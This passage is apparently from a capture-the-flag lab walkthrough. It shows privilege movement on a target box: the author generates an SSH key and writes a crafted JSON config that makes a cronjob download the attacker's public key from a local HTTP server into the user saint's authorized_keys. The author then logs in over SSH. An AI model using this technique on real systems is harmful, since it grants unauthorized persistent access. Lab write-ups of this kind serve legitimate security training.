 Generate an ssh key to use:

```bash
$ ssh-keygen -t ed25519
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/lemmy/.ssh/id_ed25519): key
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in key
Your public key has been saved in key.pub
The key fingerprint is:
SHA256:CCK1C1t40RMnfAVWe6J1Jj/FuBD0HZPfFufeUI1ghcI lemmy@d43d41us
The key's randomart image is:
+--[ED25519 256]--+
|  ooo.+==.  ==...|
| o o++.  +E=oo..+|
|+ = .o  * *.+. +o|
| * o . + O o  o +|
|. .   o S +    +.|
|           .    o|
|                 |
|                 |
|                 |
+----[SHA256]-----+
```

Create the malicious json file:

```bash
$ cat 02-03-2023.config.json
{
    "URL": "http://192.168.49.122/key.pub",
    "Output": "/home/saint/.ssh/authorized_keys"
}
```

Move the json file to `/tmp`, while setting up a http server in the directory containing your public key. When the file is fetched, ssh as saint:

![7](screenshots/7.png)

Verify the cronjob is running with pspy:

![8](screenshots/8.png)

In a couple minutes, the target fetches my ssh public key:

![9](screenshots/9.png)

I now login as saint via ssh:

```bash
$ ssh -i key saint@192.168.122.102
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Mar  3 02:55:54 IST 2023

  System load:  0.24              Processes:           157
  Usage of /:   35.7% of 9.78GB   Users logged in:     0
  Memory usage: 28%               IP address for eth0: 192.168.122.102
  Swap usage:   0%

  => There is 1 zombie process.

```